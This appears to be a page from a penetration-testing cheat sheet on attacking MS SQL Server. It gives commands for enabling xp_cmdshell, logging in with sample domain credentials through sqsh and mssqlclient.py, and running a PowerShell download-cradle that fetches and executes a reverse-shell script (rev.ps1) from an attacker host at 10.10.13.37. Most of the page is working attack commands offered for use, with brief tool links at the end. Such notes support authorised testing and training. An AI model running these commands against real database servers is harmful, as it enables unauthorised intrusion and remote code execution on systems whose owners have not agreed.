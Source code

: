 


## MS SQL



### Enable xp_cmdshell

```
1> EXEC sp_configure 'show advanced options', 1
2> GO
1> RECONFIGURE
2> GO
1> EXEC sp_configure 'xp_cmdshell', 1
2> GO
1> RECONFIGURE
2> GO
1> xp_cmdshell whoami
2> GO
```



### sqsh

```
$ sqsh -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
1> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString('http://10.10.13.37/rev.ps1')"
2> GO
```



### mssqlclient.py

```
$ mssqlclient.py MEGACORP/snovvcrash:'Passw0rd!'@127.0.0.1 [-windows-auth]
SQL> xp_cmdshell "powershell -nop -exec bypass IEX(New-Object Net.WebClient).DownloadString(\"http://10.10.13.37/rev.ps1\")"
```



### mssql-cli

* [https://github.com/dbcli/mssql-cli](https://github.com/dbcli/mssql-cli)

```
$ python -m pip install mssql-cli
$ mssql-cli -S 127.0.0.1 -U 'MEGACORP\snovvcrash' -P 'Passw0rd!'
```



### DBeaver

* [DBeaver Community](https://dbeaver.io/)
